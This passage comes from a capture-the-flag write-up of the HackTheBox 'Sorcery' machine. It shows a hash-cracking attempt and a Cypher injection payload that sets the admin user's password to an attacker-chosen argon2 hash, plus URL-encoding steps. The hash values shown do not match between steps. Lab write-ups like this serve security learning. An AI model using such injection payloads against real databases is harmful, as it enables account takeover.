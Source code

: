 ```bash
└─$ ./crack_argon2.py -c '$argon2id$v=19$m=19456,t=2,p=1$T+K9waOashQqEOcDljfe5Q$X5Yul0HakDZrbkEDxnfn2KYJv/BdaFsXn7xNwS1ab8E'
```

When I hit enter, this machine is frozen for a while so I need to cancel the process and as the result, we got pretty far. <br>
&rarr; Let's use the cypher injection to change the admin password.

But first we need to use argon2 library to generate the hash of the password.
```bash
└─$ python3 -c "import argon2; print(argon2.PasswordHasher().hash('P@ssword@123'))"
$argon2id$v=19$m=102400,t=2,p=8$5yNzSyjBWFb+8J61AawPkg$R9x9FEBYERukEvHc+DDfQA
```

Next craft the query to inject.
```sql
"}) OPTIONAL MATCH (u:User {username: 'admin'}) SET u.password = '$argon2id$v=19$m=65536,t=3,p=4$5yNzSyjBWFb+8J61AawPkg$R9x9FEBYERukEvHc+DDfQA' RETURN result { .*, name: coalesce('admin_password_updated', result.name) }//
```

Remember to **URL ENCODE** through [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=In0pIE9QVElPTkFMIE1BVENIICh1OlVzZXIge3VzZXJuYW1lOiAnYWRtaW4nfSkgU0VUIHUucGFzc3dvcmQgPSAnJGFyZ29uMmlkJHY9MTkkbT02NTUzNix0PTMscD00JDV5TnpTeWpCV0ZiKzhKNjFBYXdQa2ckUjl4OUZFQllFUnVrRXZIYytERGZRQScgUkVUVVJOIHJlc3VsdCB7IC4qLCBuYW1lOiBjb2FsZXNjZSgnYWRtaW5fcGFzc3dvcmRfdXBkYXRlZCcsIHJlc3VsdC5uYW1lKSB9Ly8)

![Admin Password Updated](/assets/img/sorcery-htb-season8/sorcery-htb-season8_admin_password_updated.png)

Got the admin password updated. <br>
&rarr; Let's try to login with the new password.
